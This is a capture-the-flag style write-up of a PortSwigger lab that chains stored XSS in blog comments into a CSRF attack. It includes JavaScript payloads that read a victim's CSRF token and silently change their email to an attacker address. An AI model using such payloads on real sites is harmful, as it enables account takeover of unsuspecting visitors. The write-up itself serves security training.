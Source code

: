 # Exploiting XSS to perform CSRF | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf), you'll learn: Exploiting XSS to perform CSRF! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054735.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054756.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054806.png)

In here, we can update our email.

**Let's update it and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054925.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054933.png)

When we click the `Update email` button, **it'll send a POST request to `/my-account/change-email`, with parameter `email` and `csrf`.**

Also, in the home page, we can view other posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055219.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055231.png)

And we can leave some comments.

**Let's try to inject some JavaScript code via XSS:**
```html
<script>
    window.onload = function (){
        alert(document.getElementsByName("csrf")[0].value)
    };
</script>
```

This will pop up an alert box with our CSRF token.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055715.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055728.png)

We indeed can inject any JavaScript code, and **the CSRF token is the same as the update email one.**

Armed with above information, **we can inject some JavaScript codes that perform CSRF (Cross-Site Request Forgery), which will update victim's email upon visit.**

```html
<script>
    // Wait the window is fully loaded, otherwise the CSRF token will be empty
    window.onload = function (){
        // Fetch victim's CSRF token
        var csrfToken = document.getElementsByName("csrf")[0].value;
        var email = 'attacker@malicious.com';

        // Construct the require POST parameters
        var data = 'email=' + email + '&';
        data += 'csrf=' + csrfToken;

        // Change victim's email upon visit via CSRF attack
        fetch('https://0a92003a03004453c02cccab008d0098.web-security-academy.net/my-account/change-email',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060637.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060643.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060650.png)

We did it!

# What we've learned:

1. Exploiting XSS to perform CSRF